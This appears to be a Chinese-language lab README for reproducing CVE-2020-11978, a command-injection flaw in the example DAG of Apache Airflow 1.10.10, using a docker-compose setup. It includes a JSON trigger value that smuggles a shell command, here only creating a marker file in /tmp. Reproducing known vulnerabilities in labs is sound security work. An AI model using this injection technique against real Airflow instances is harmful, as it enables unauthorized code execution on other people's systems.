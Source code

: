 # Airflow 1.10.10 CVE-2020-11978 示例dag中的命令注入



airflow是一款开源的，分布式任务调度框架，它将一个具有上下级依赖关系的工作流，组装成一个有向无环图。

docker-compose文件由airflow 2.x提供的docker-compose文件修改而来。

Airflow的配置中使用CeleryExecutor进行任务执行，所以命令执行结果需要在CeleryWorker所在容器中进行查看。

由于启动的组件比较多，可能会有点卡，虚拟机使用请准备2G以上的内存。

## 漏洞环境

依次执行如下命令启动airflow 1.10.10

```bash
#初始化数据库
docker-compose run airflow-init initdb
#启动服务
docker-compsoe up -d
```

## 漏洞复现

访问`http://主机:8080`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：

![image-20210701142307744](README.assets/image-20210701142307744.png)

再点击执行按钮，在`Configuration JSON`中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`,再点`Trigger`执行dag

![image-20210701142758977](README.assets/image-20210701142758977.png)

等几秒可以看到执行`success`了

![image-20210701142948275](README.assets/image-20210701142948275.png)

到CeleryWorker容器中进行查看：

```bash
docker-compose exec airflow-worker ls -l /tmp
```

可以看到成功创建了airflow_dag_success文件

![image-20210701154024308](README.assets/image-20210701154024308.png)

## 参考

https://xz.aliyun.com/t/8037

https://lists.apache.org/thread.html/r7255cf0be3566f23a768e2a04b40fb09e52fcd1872695428ba9afe91%40%3Cusers.airflow.apache.org%3E

https://docs.celeryproject.org/en/stable/userguide/configuration.html

https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk

https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers

https://www.jianshu.com/p/52552c075bc0

https://www.runoob.com/w3cnote/python-redis-intro.html

https://blog.csdn.net/SKI_12/article/details/85015803
